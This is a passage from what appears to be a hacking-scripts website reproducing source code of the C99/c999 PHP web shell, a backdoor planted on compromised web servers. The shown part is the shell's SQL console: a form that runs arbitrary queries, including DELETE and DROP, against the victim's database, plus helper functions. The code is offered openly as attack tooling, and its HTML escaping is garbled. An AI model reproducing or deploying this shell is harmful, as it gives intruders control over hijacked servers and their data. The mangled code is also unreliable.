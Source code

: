 &lt;textarea cols="100" name="sql_query" rows="10"&gt;".htmlspecialchars($sql_query)."&lt;/textarea&gt;

&lt;input type="hidden" name="act" value="sql" /&gt;&lt;input type="hidden" name="sql_act" value="query" /&gt;&lt;input type="hidden" name="sql_tbl" value="\&quot;&quot;.htmlspecialchars($sql_tbl).&quot;\&quot;" /&gt;&lt;input type="hidden" name="submit" value="\&quot;1\&quot;" /&gt;&lt;input type="hidden" name="\&quot;sql_goto\&quot;" value="\&quot;&quot;.htmlspecialchars($sql_goto).&quot;\&quot;" /&gt;&lt;input type="submit" name="sql_confirm" value="\&quot;Yes\&quot;" /&gt; &lt;input type="submit" value="\&quot;No\&quot;" /&gt;&lt;/form&gt;&lt;/td&gt;
&lt;td valign="\&quot;top\&quot;"&gt;&lt;b&gt;Fields:&lt;/b&gt;
";
 foreach ($tbl_struct as $field) {$name = $field["Field"]; echo "� &lt;a onclick="\&quot;document.c999sh_sqlquery.sql_query.value+='`&quot;.$name.&quot;`';\&quot;" href="\&quot;#\&quot;"&gt;&lt;b&gt;".$name."&lt;/b&gt;&lt;/a&gt;
";}
 echo "&lt;/td&gt;
&lt;/tr&gt;
&lt;/tbody&gt;
&lt;/table&gt;
&lt;pre&gt;
";
 }
 }
 if ($sql_query_result or (!$sql_confirm)) {$sql_query = $sql_last_query;}
}
}
if (!function_exists("mysql_create_db"))
{
function mysql_create_db($db,$sock="")
{
 $sql = "CREATE DATABASE `".addslashes($db)."`;";
 if ($sock) {return mysql_query($sql,$sock);}
 else {return mysql_query($sql);}
}
}
if (!function_exists("mysql_query_parse"))
{
function mysql_query_parse($query)
{
 $query = trim($query);
 $arr = explode (" ",$query);
 /*array array()
 {
 "METHOD"=&gt;array(output_type),
 "METHOD1"...
 ...
 }
 if output_type == 0, no output,
 if output_type == 1, no output if no error
 if output_type == 2, output without control-buttons
 if output_type == 3, output with control-buttons
 */
 $types = array(
 "SELECT"=&gt;array(3,1),
 "SHOW"=&gt;array(2,1),
 "DELETE"=&gt;array(1),
 "DROP"=&gt;array(1)
 );
 $result = array();
 $op = strtoupper($arr[0]);
 if (is_array($types[$op]))
 {
 $result["propertions"] = $types[$op];
 $result["query"] = $query;

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png